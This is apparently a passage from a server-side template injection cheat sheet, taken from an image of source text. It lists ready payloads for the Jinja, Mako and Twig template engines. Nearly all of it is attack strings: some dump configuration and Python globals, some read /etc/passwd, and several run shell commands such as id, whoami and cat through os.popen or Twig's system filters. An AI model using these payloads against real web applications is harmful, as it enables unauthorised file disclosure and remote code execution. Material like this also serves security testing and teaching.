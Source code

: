 Jinja is a template engine commonly used in Python web frameworks such as Flask or Django. 
Testing: {{5*"5"}}

**Information Disclosure**
````
{{ config.items() }}
{{ self.__init__.__globals__.__builtins__ }}
````
**Read Files**
````
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
````
**Remote Code Execution**

Example
````
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
`````

### Mako (Python) 

**Remote Code Execution**

Example
````
<%
import os
x=os.popen('cat file.txt').read()
%>
${x}
````

### Twig (PHP

Testing:  {{7*7}}

**Information Disclosure**
````
{{ _self }}
{{-<Variable_Name>-}}
````
**Read Files**
````
{{ "/etc/passwd"|file_excerpt(1,-1) }}
````

**Remote Code Execution**

Example
````
{{ ['id'] | filter('system') }}
{{[0]|reduce('system','whoami')}}
{{['cat${IFS}/etc/passwd']|filter('system')}}
{{ ["id"]|map("system")|join }}
{{ {"x":"id"}|filter("system")|join }}
````

